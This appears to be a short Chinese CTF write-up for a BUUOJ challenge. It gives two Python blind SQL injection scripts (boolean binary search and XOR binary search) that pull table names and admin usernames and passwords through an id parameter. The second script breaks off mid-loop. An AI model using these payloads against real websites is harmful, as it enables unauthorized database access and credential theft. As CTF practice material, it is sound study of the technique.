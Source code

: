 抓包发现存在注入 **/backend/content_detail.php?id=3**

二分法

```python
import requests

url = "http://a9e76264-28bb-40ed-9685-224b1d96a7d5.node4.buuoj.cn:81/backend/content_detail.php?id="

result = ""
i = 0

while (True):
    i = i + 1
    head = 32
    tail = 127

    while (head < tail):
        mid = (head + tail) >> 1

        # payload = "if(ascii(substr(database(),%d,1))>%d,1,0)" % (i , mid)
        #payload = "if(ascii(substr((select/**/group_concat(table_name)from(information_schema.tables)where(table_schema=database())),%d,1))>%d,1,0)" % (i, mid)
        payload = "if(ascii(substr((select(group_concat(password))from(admin)),%d,1))>%d,3,2)" % (i , mid)


        r = requests.get(url + payload)
        r.encoding = "utf-8"
        # print(url+payload)
        if "Yunen" in r.text:
            head = mid + 1
        else:
            # print(r.text)
            tail = mid

    last = result

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
```

二分异或

```python
import requests
url = "http://28efd88e-90e7-48b0-aa07-9ed14c473b27.node3.buuoj.cn/backend/content_detail.php?id=2^"

name = ""
i=0
while True :
	head = 32
	tail = 127
	i += 1
	while(head<tail):
		mid = head + tail >> 1
		payload = "(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),%d,1))>%d)" %(i,mid)
		payload = "(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='contents')),%d,1))>%d)" %(i,mid)
		payload = "(ascii(substr((select(group_concat(username))from(admin)),%d,1))>%d)" %(i,mid)
		
```